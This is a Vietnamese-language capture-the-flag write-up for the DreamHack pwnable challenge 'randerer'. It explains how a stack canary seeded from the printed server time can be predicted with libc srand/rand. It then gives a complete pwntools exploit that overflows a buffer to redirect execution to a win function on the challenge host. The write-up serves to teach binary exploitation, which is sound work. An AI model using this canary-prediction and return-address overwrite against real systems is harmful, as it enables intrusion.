

# randerer---Write-up-----DreamHack
Hướng dẫn cách giải bài randerer cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 9/12/2025

## 1.Mục tiêu cần làm
Đọc hiểu code chạy ra sao

## 2. Cách thực thi
Đầu tiên các bạn hãy đọc code dịch ngược của bài

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  time_t v3; // rax
  char buf[16]; // [rsp+0h] [rbp-20h] BYREF
  __int64 v6; // [rsp+10h] [rbp-10h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  v6 = canary;
  v3 = time(0LL);
  printf("time: %ld\n", v3);
  printf("input your data: ");
  read(0, buf, 256uLL);
  if ( v6 != canary )
  {
    puts("*** stack smashing detected ***: terminated Aborted");
    exit(1);
  }
  return 0;
}
```

Như mình đã đề cập ở bài Cat Jump(https://github.com/Cunhotayto/Cat-Jump---Write-up-----DreamHack). Bài này nó sẽ lấy thời gian chạy server ra làm seed ngẫu nhiên để chạy random. Nhưng thay vì cần tìm như bài Cat Jump thì bài này nó in hẳn ra màn hình luôn. Chúng ta chỉ việc lấy và xài thôi.

Tiếp theo hãy xem thử hàm tạo canary của nó như nào.

```C
void init_canary()
{
  unsigned int v0; // eax
  __int64 v1; // rbx
  int i; // [rsp+Ch] [rbp-14h]

  v0 = time(0LL);
  srand(v0);
  for ( i = 0; i <= 7; ++i )
  {
    v1 = canary << 8;
    canary = v1 | (unsigned __int8)rand();
  }
}
```

Vậy là nó lấy seed ngẫu nhiên tạo canary + 1 chút tính toán. Vậy là khá dễ, chúng ta đã có thời gian chạy server + cách tính toán => có thể tìm canary của bài dễ dàng.

```Python
from pwn import *
from ctypes import CDLL
import math

libc = CDLL("libc.so.6")

p.recvuntil(b'time: ')

server = int(p.recvline().strip())
log.info(f'Server time : {server}')

libc.srand(server)

canary = 0

for i in range(8):
    # Logic: v1 = canary << 8; canary = v1 | (unsigned __int8)rand();
    # Python int tự động xử lý số lớn, nhưng cần đảm bảo lấy 8 bit cuối của rand()
    random_byte = libc.rand() & 0xFF 
    canary = (canary << 8) | random_byte

# Cắt canary về đúng 64-bit (đề phòng tràn bit trong python)
canary = canary & 0xFFFFFFFFFFFFFFFF
```

Giờ thì việc còn lại của chúng ta là tìm offset để đè tới saved rip là xong. Chúng ta hãy chạy gdb và đặt breakpoint tại `read@plt` để xem thử trên stack nó như nào. Sau đó hãy `run` và gõ `tele`.



`04:0020` là saved RBP còn `00:0000` là đang chỗ buf, nó đang 0 là vì chúng ta đã chặn dữ liệu được đọc vào. Thì từ 00 đến 20 là 0x20 byte tương đương 32 byte. Vậy là cần 40 byte ( 16 buf + 8 canary + 8 padding + 8 saved rbp ) để đè tới saved rip.

```Python
win_add = 0x401291
ret = 0x40101a

payload = b'A' * 16
payload += p64(canary)
payload += b'B' * 16
payload += p64(ret) # 16-byte alignment
payload += p64(win_add)
```

Vậy là xong bài này khá đơn giản, nó dễ hơn nhiều so với Cat Jump mà ta đã từng giải. Nhớ cho mình 1 star để có động lực viết theo write up mới 🐧.

```Python
from pwn import *
from ctypes import CDLL
import math

libc = CDLL("libc.so.6")

p = remote('host8.dreamhack.games', 20963)
#p = process('./prob')

p.recvuntil(b'time: ')

server = int(p.recvline().strip())
log.info(f'Server time : {server}')

libc.srand(server)

canary = 0

for i in range(8):
    # Logic: v1 = canary << 8; canary = v1 | (unsigned __int8)rand();
    # Python int tự động xử lý số lớn, nhưng cần đảm bảo lấy 8 bit cuối của rand()
    random_byte = libc.rand() & 0xFF 
    canary = (canary << 8) | random_byte

# Cắt canary về đúng 64-bit (đề phòng tràn bit trong python)
canary = canary & 0xFFFFFFFFFFFFFFFF

log.success(f'Canary found : {hex(canary)}')

win_add = 0x401291
ret = 0x40101a

payload = b'A' * 16
payload += p64(canary)
payload += b'B' * 16
payload += p64(ret)
payload += p64(win_add)

p.sendafter(b'input your data: ', payload)

p.interactive()
```
